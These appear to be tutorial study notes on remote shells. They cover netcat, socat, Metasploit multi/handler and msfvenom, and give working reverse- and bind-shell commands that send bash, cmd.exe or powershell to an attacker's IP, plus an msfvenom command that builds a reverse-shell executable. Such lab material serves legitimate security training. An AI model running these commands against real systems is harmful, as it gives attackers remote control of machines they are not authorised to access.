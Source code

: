 ##### what is a shell?
In the simplest possible terms, shells are what we use when interfacing with a Command Line environment (CLI). In other words, the common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows.
In simple terms, we can force the remote server to either send us command line access to the server (a **reverse** shell), or to open up a port on the server which we can connect to in order to execute further commands (a **bind** shell).

#### Tools
**Netcat:** - it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques.

The syntax for starting a netcat listener using Linux is this: `nc -lvnp <port-number>`
- **-l** is used to tell netcat that this will be a listener
- **-v** is used to request a verbose output
- **-n** tells netcat not to resolve host names or use DNS.
- **-p** indicates that the port specification will follow.
	
	==Netcat Shell Stabilisation==
	_Technique 1: Python_
	![](https://i.imgur.com/bQnFz1T.png)
	Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.
	
	_Technique 2: rlwrap_
	rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
	
	To use rlwrap, we invoke a slightly different listener:
	`rlwrap nc -lvnp <port>`  
	Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.
	
	_Technique 3: Socat_	

**Socat:** - it is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:
1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

	_Reverse Shells_
	Here's the syntax for a basic reverse shell listener in socat:  
	`socat TCP-L:<port> -`  
	As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.
	
	On Windows we would use this command to connect back:
	`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`  
	The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.  
	
	This is the equivalent command for a Linux Target:
	`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
	
	_Bind Shells_
	On a Linux target we would use the following command:
	`socat TCP-L:<PORT> EXEC:"bash -li"`  
	
	On a Windows target we would use this command for our listener:
	`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`  
	We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  
	
	Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
	`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

**Metasploit -- multi/handler:** - it is the `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells.

1. Open Metasploit with `msfconsole`
2. Type `use multi/handler`, and press enter
	We are now primed to start a multi/handler session. Let's take a look at the available options using the `options` command:
	![](https://i.imgur.com/qIr6o2B.png)  
	

**Msfvenom:** - Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly.

The standard syntax for msfvenom is as follows:
`msfvenom -p <PAYLOAD> <OPTIONS>`  

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

Here we are using a payload and four options:
- **-p** - `<OS>/<arch>/<payload>` 
- **-f** < format> - Specifies the output format. In this case that is an executable (exe).
- **-o** < file> - The output location and filename for the generated payload.
- **LHOST=**< IP > - Specifies the IP to connect back to.
- **LPORT=**< port> - The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

	`shell_reverse_tcp` This indicates that it was a _stageless_ payload. How? Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:`shell/reverse_tcp` it indicated with (`/`).


####  Types of Shell
At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.
- **Reverse shells** are when the target is forced to execute code that connects _back_ to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a _listener_ which would be used to receive the connection.
e.g:(use *netcat*)
On the attacking machine:                        On the target:
`sudo nc -lvnp 443`                                      `nc <LOCAL-IP> <PORT> -e /bin/bash`  

![](https://i.imgur.com/rN7YkJJ.png)

- **Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way.
e.g:
On the target:                                   On the attacking machine:
`nc -lvnp <port> -e "cmd.exe"`                 `nc MACHINE_IP <port>`  

![](https://i.imgur.com/6GUwZsw.png)


